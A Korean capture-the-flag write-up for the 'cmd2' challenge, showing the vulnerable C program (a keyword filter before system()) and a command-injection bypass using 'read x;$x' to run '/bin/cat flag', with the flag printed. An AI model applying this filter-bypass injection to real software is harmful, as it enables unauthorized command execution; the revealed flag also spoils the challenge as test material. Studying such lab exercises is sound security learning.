

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

소스는 다음과 같다.

```cpp
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```

PATH 환경변수를 바꾸고, "/"도 필터링 하기 때문에 절대경로를 argv[1]에 입력할 수 없다. 이때, read 함수를 통해 우회한다. read와 인자(x)를 넘겨주면 이후에 입력하는 값(hello)이 인자(x)에 저장되고, $를 붙혀서 인자(x)를 명령어 형태로 실행시킨다.

```sh
cmd2@pwnable:~$ read x
hello
cmd2@pwnable:~$ $x
The program 'hello' can be found in the following packages:
 * hello
 * hello-traditional
Ask your administrator to install one of them
```

다음과 같이 FLAG를 획득할 수 있다.

```sh
cmd2@pwnable:~$ unset x
cmd2@pwnable:~$ ./cmd2 'read x;$x'
read x;$x
/bin/cat flag
FuN_w1th_5h3ll_v4riabl3s_haha
```


# **FLAG**

**FuN_w1th_5h3ll_v4riabl3s_haha**